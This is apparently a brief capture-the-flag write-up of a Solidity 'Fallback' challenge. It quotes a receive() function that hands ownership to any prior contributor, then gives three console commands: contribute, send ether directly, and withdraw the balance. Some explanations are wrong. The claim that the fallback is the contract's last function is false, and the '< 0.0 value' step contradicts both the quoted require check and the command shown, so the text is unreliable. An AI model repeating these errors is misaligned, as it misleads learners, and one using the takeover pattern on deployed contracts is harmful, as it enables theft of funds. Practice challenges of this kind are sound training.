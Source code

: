 ## Fallback memes

In a nutshell, solidity will always require some sort of fallback method to be able to process any non-standard transaction sent to the contract. 
This includes any sort of transaction with no data, no matching parameters and so and forth. As of current state, the default fallback method is
the last one in the contract. It has to be external and payable.

In our meme of a contract, we're provided with the following fallback method:


```sol
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
}
```

Little needs to be said, we need to contribute once and then send a bogus transaction with < 0.0 value. Here are the commands:
```
contract.contribute({to: instance, from: player, value: toWei("0.0005", "ether")})
sendTransaction({from: player, to: contract, value: toWei("0.0005", "ether")})
contract.withdraw()
```

Tada... how anticlimactic.
